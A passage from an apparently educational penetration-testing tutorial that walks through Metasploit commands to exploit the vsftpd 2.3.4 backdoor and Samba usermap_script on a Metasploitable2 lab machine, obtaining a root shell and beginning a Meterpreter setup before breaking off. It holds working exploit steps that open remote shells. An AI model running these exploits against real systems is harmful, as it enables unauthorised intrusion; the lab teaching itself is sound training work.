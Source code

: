    * `use exploit/unix/ftp/vsftpd_234_backdoor`

   * Your prompt will change to `msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`, indicating you are now in the context of this module.

3. **View Options:** See what parameters need to be configured for this exploit.

   * `show options`

   * You will see a list of options like `RHOSTS` (Remote Hosts). Note which ones are listed as "Required".

4. **Set the Target:** Configure the exploit to point at your Metasploitable2 machine.

   * `set RHOSTS <target_ip>`

5. **Check the Payload:** By default, this exploit uses a simple command shell payload. View the available payloads for this exploit.

   * `show payloads`

   * We will use the default: `cmd/unix/interact`.

6. **Launch the Attack:**

   * `exploit` or `run`

   * If successful, the exploit will trigger the backdoor in the FTP server. You will see a message like "Command shell session 1 opened".

7. **Interact with the Shell:** You now have a remote command shell on the target.

   * Type `whoami`. The result should be `root`.

   * You have successfully compromised the target machine. Type `exit` to leave the shell and return to the `msfconsole` prompt.

## 五 - POST-EXPLOITATION: METERPRETER

> A simple command shell is good, but Metasploit's custom payload, **Meterpreter**, is far more powerful. It's an advanced, in-memory shell with a rich set of features for post-exploitation.

### ► **LIVE EXERCISE: Upgrading to Meterpreter**

*Let's exploit a different service to get a Meterpreter shell. A common vulnerability on Metasploitable2 is with Samba version 3.0.20.*

1. **Find the Exploit:**

   * `search samba usermap script`

   * Select the exploit: `use exploit/multi/samba/usermap_script`

2. **Configure the Exploit:**

   * `show options`

   * `set RHOSTS <target_ip>`

3. **Set a Meterpreter Payload:** This time, we will explicitly set a Meterpreter payload.
